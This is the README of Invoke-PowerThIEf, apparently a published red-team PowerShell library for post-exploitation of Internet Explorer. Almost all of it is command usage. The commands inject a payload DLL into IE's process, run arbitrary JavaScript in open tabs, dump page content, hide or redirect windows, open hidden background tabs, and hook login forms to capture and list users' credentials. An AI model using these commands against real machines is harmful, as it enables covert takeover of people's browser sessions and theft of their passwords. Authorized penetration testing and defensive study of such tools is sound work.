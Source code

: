 # Invoke-PowerThIEf 2018 Nettitude
An IE Post Exploitation Library

Written by Rob Maslen @rbmaslen

# Examples


# Usage
First import the module using . .\Invoke-PowerThIEf.ps1 then use any of the following commands.

##  List URLs for all current IE browser sessions, result will contain the BrowserIndex used by other actions
Invoke-PowerThIEf -action ListUrls

## Launch the DLL(x64) specified by the PathPayload param in IE's process
Invoke-PowerThIEf -action ExecPayload -PathPayload <path to the payload DLL(x64)>

## Invoke the JavaScript in all currently opened IE windows and tabs
Invoke-PowerThIEf -action InvokeJS -Script <JavaScript to run>

## Invoke JavaScript in the selected IE window or tab. Use ListUrls to get the BrowserIndex to identify the Window/Tab
Invoke-PowerThIEf -action InvokeJS -BrowserIndex <BrowserIndex> -Script <JavaScript to run>

## Dump the HTML of all currently opened IE windows/tabs
Invoke-PowerThIEf -action DumpHthml

## Dump the HTML from the selected IE window or tab. Use ListUrls to get the BrowserIndex to identify the Window/Tab
Invoke-PowerThIEf -action DumpHTML -BrowserIndex <BrowserIndex>

## Dump the HTML from all tags of <type> in the DOM of the selected IE window or tab. Use ListUrls to get the BrowserIndex to identify the Window/Tab
Invoke-PowerThIEf -action DumpHTML -BrowserIndex <BrowserIndex> -SelectorType tag -Selector <type>
e.g. Invoke-PowerThIEf -action DumpHTML -BrowserIndex <BrowserIndex> -SelectorType tag -Selector div

## Dump the HTML from any tag with the <id> found in the DOM of the selected IE window or tab. Use ListUrls to get the BrowserIndex to identify the Window/Tab
Invoke-PowerThIEf -action DumpHTML -BrowserIndex <BrowserIndex> -SelectorType id -Selector <id>
e.g. Invoke-PowerThIEf -action DumpHTML -BrowserIndex <BrowserIndex> -SelectorType id -Selector idfirstdiv

## Dump the HTML from any tag with the <name> found in the DOM of the selected IE window or tab. Use ListUrls to get the BrowserIndex to identify the Window/Tab
Invoke-PowerThIEf -action DumpHTML -BrowserIndex <BrowserIndex> -SelectorType name -Selector <name>
e.g. Invoke-PowerThIEf -action DumpHTML -BrowserIndex <BrowserIndex> -SelectorType name -Selector namefirstdiv

## Set to visible all IE windows/tabs
Invoke-PowerThIEf -action ShowWindow

## Show the selected opened IE windows/tabs. Use ListUrls to get the BrowserIndex to identify the Window/Tab
Invoke-PowerThIEf -action ShowWindow -BrowserIndex <BrowserIndex>

## Hide all currently opened IE windows/tabs
Invoke-PowerThIEf -action HideWindow

## Hide the selected opened IE windows/tabs. Use ListUrls to get the BrowserIndex to identify the Window/Tab
Invoke-PowerThIEf -action HideWindow -BrowserIndex <BrowserIndex>

## Navigate all currently opened IE windows/tabs to the <URL>
Invoke-PowerThIEf -action Navigate -NavigateUrl <URL> 

## Navigate all currently opened IE windows/tabs to the <URL>. Use ListUrls to get the BrowserIndex to identify the Window/Tab
Invoke-PowerThIEf -action Navigate -BrowserIndex <BrowserIndex> -NavigateUrl <URL> 

## Navigate all currently opened IE windows/tabs to the <URL>. Use ListUrls to get the BrowserIndex to identify the Window/Tab
Invoke-PowerThIEf -action Navigate -BrowserIndex <BrowserIndex> -NavigateUrl <URL> 

## Automatically scan any windows or tabs for login forms and record what gets posted. Once credentials have come in use -action creds to list them
Invoke-PowerThIEf -action HookLoginForms 

## List any creds that have been captured
Invoke-PowerThIEf -action Creds 

##  Open a new background tab in the window that the <BrowserIndex> is in.
Invoke-PowerThIEf -action NewBackgroundTab -BrowserIndex <BrowserIndex>

# License
FreeBSD 3